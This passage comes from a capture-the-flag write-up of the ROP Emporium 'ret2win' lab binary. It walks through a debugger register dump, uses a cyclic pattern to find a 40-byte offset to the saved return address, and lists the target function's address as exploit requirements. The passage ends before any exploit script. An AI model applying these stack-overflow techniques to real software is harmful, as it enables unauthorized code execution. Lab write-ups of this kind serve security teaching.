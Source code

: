 ```
───────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────
*RAX  0xb
 RBX  0x0
*RCX  0x7ffff7ea2a37 (write+23) ◂— cmp rax, -0x1000 /* 'H=' */
*RDX  0x1
*RDI  0x7ffff7fa9a70 (_IO_stdfile_1_lock) ◂— 0x0
*RSI  0x1
*R8   0xa
*R9   0x7ffff7fc9040 (_dl_fini) ◂— endbr64
*R10  0x7ffff7d945e8 ◂— 0xf001200001a64
*R11  0x246
*R12  0x7fffffffe018 —▸ 0x7fffffffe255 ◂— '/home/kunal/ropEmporium/ret2win/ret2win'
*R13  0x400697 (main) ◂— push rbp
 R14  0x0
*R15  0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 ◂— 0x0
*RBP  0x6161616161616165 ('eaaaaaaa')
*RSP  0x7fffffffdef8 ◂— 0x6161616161616166 ('faaaaaaa')
*RIP  0x400755 (pwnme+109) ◂— ret
```

* The `rbp` register points to `0x6161616161616165` which is the little endian `eaaaaaaa` in ASCII.
* Let's find the offset of this value in our cyclic pattern.

```
pwndbg> cyclic -l 0x6161616161616165
Finding cyclic pattern of 8 bytes: b'eaaaaaaa' (hex: 0x6561616161616161)
Found at offset 32
```

* So the offset is 32 bytes.
* Let's see how this looks on the stack.

```
+---------------------------+ 
|  61 61 61 61 61 61 61 61  | <====== buffer (32 bytes) <------ rsp
|  62 61 61 61 61 61 61 61  | 
|  63 61 61 61 61 61 61 61  |
|  64 61 61 61 61 61 61 61  |
+---------------------------+
|  65 61 61 61 61 61 61 61  | <====== stored rbp <------ rbp
+---------------------------+
|  66 61 61 61 61 61 61 61  | <====== return address
+---------------------------+
```

* We can see that if we increment the `rbp` by 8, it will point to the saved return address.
* Therefore the distance between the buffer and the saved return address is `offset+8` which is equal to 40.

### Exploit requirements

* We now have all the information we need to create an exploit.
  * [ ] Address of `ret2win`: `0x0000000000400756`
  * [ ] Distance between the buffer and return address: `40`
